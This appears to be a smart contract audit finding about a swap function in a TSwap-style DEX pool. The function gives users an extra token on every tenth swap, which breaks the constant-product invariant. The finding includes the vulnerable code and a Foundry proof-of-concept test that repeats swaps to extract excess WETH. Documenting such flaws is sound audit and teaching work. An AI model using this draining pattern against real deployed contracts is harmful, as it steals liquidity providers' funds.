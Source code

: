 ## [H-1] In `_swap` function users are rewarded with extra tokens potentially draining the entire protocol

## Summary
- In the `_swap` function, for each 10 swaps executed, the user is rewarded with `1_000_000_000_000_000_000` extra tokens. This extra incentive breaks the protocol invariant of `x * y =  k` meaning that over time the protocol funds will be drained.

## Vulnerability Details
- Block where for each 10 swaps executed, user is rewarded with extra tokens.
```javascript
    swap_count++;
    if (swap_count >= SWAP_COUNT_MAX) {
        swap_count = 0;
        outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
    }
```

- PoC - Copy this test into `TSwapPool.t.sol`
```javascript
    function testSwapExactOutputBreaksInvariant() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputAmount = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);

        for (uint256 i = 0; i < 9; i++) {
            pool.swapExactOutput({
                inputToken: poolToken,
                outputToken: weth,
                outputAmount: outputAmount,
                deadline: uint64(block.timestamp)
            });
        }

        uint256 startingY = weth.balanceOf(address(pool));
        int256 expectedDeltaY = int256(-1) * int256(outputAmount);

        //This is the 10th swap where user receives extra tokens (breaking the invariant)
        pool.swapExactOutput({
            inputToken: poolToken,
            outputToken: weth,
            outputAmount: outputAmount,
            deadline: uint64(block.timestamp)
        });

        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);

        // The change of token balance of weth (∆y) is not the expected!
        assertEq(expectedDeltaY, actualDeltaY); // expectedDeltaY -1e17 != actualDeltaY -1.1e18
    }
```